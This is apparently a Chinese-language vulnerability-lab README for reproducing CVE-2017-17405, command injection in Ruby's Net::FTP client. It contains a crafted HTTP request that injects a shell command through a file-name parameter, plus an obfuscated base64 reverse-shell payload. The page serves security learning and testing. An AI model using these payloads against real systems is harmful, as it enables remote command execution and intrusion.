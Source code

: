 # Ruby Net::FTP 模块命令注入漏洞（CVE-2017-17405）

Ruby Net::FTP 模块是一个FTP客户端，在上传和下载文件的过程中，打开本地文件时使用了`open`函数。而在ruby中，`open`函数是借用系统命令来打开文件，且没用过滤shell字符，导致在用户控制文件名的情况下，将可以注入任意命令。

## 漏洞环境

执行如下命令使用Ruby 2.4.1启动一个Web服务：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8080/`将可以看到一个HTTP服务。这个HTTP服务的作用是，我们访问`http://your-ip:8080/download?uri=ftp://example.com:2121/&file=vulhub.txt`，它会从example.com:2121这个ftp服务端下载文件vulhub.txt到本地，并将内容返回给用户。

## 漏洞复现

因为这是一个FTP客户端的漏洞，所以我们需要先运行一个可以被访问到的服务端。比如使用python的pyftpdlib：

```
# 安装pyftpdlib
pip install pyftpdlib

# 在当前目录下启动一个ftp服务器，默认监听在`0.0.0.0:2121`端口
python3 -m pyftpdlib -p 2121 -i 0.0.0.0
```

然后，将刚才启动的FTP服务器地址作为*uri*参数，`|touch${IFS}success.txt`作为*file*参数，替换进下面的请求发送：

```
GET /download?uri=ftp://example.com:2121/&file=|touch${IFS}success.txt HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Connection: close
Cache-Control: max-age=0


```

![](1.png)

然后进入docker容器内，可见success.txt已被创建：

![](2.png)

执行反弹shell的命令`|bash${IFS}-c${IFS}'{echo,YmFzaCAtaSA...}|{base64,-d}|{bash,-i}'`，成功反弹：

![](3.png)
